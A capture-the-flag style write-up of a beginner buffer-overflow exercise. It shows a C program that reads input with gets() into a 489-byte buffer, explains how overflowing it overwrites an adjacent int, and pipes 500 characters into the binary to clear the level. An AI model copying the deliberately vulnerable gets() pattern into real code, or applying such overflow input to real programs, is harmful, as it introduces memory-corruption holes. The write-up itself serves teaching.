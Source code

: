 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    g = 0;
    gets(buffer);
    if(g)
    {
        printf("Wait aren't you supposed to be researching? Level Cleared!\n");
    }

}
```

First off, our objective is to get the program to execute the printf. Thing is, it will only execute if g isn't 0 (which it is, since that is the default value for int) becuase in C when an int is examined by an if then statement it returns true only if the int isn't equal to 0.
There is no direct way we can modify that int. However we can see that there is a bug with the gets() function. Thing about the gets function, it will allow as much input as it gets untill a null terminator or a EOF (Enf-of-File it tells the program to stop accepting input).
Currently the gets command is writing to a buffer 489 bytes. The int we need to modify is declared right after the buffer, so they should be side by side in memory. So we should need to write 490 bytes to overflow the buffer and change the value of the int, so the if then statement will evaluate as true. I will do this by using python to write 490 characters (1 character = 1 byte) and pipe it into the program.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b0_64$ echo `python -c 'print "1"*490'` | ./b0_64
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b0_64$ 
```

So that didn't work. It is probably because there is some padding inbetween the char and the int. Let's try inputting 500 characters.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b0_64$ echo `python -c 'print "1"*500'` | ./b0_64
Wait aren't you supposed to be researching? Level Cleared!
```

And just like that, we pwned the buffer.

